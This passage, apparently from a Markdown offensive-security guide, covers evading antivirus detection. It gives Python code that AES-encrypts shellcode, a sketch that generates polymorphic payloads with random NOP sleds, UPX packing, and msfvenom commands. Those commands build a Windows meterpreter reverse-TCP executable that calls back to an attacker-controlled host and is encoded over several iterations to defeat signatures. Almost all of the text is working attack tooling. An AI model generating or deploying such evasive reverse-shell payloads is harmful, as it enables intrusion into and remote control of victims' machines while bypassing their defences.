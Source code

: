 #### Encryption

```python
# AES encryption for payload
from Crypto.Cipher import AES
import base64

def encrypt_payload(payload, key):
    cipher = AES.new(key, AES.MODE_EAX)
    ciphertext, tag = cipher.encrypt_and_digest(payload)
    return cipher.nonce + tag + ciphertext

# Encrypted payload
encrypted = encrypt_payload(shellcode, b'sixteen byte key')
```

#### Polymorphism

```python
# Generate unique payloads each time
def generate_polymorphic_payload():
    # Random NOP sled
    nops = bytes([random.choice([0x90, 0x91, 0x92]) 
                  for _ in range(random.randint(50, 100))])
    
    # Random garbage instructions
    garbage = generate_random_instructions()
    
    # Actual payload
    payload = nops + garbage + actual_shellcode
    
    return payload
```

#### Packing

```bash
# UPX packer
upx --best payload.exe

# Custom packer
# Compress + encrypt + custom loader
```

### 2. Signature Evasion

**Msfvenom Encoding**

```bash
# Single encoding
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.0.0.1 LPORT=4444 \
  -e x86/shikata_ga_nai \
  -f exe -o payload.exe

# Multiple iterations
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.0.0.1 LPORT=4444 \
  -e x86/shikata_ga_nai -i 10 \
  -f exe -o payload.exe

# Multiple encoders
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.0.0.1 LPORT=4444 \
  -e x86/shikata_ga_nai -i 5 \
  -e x86/countdown -i 5 \
  -f exe -o payload.exe
```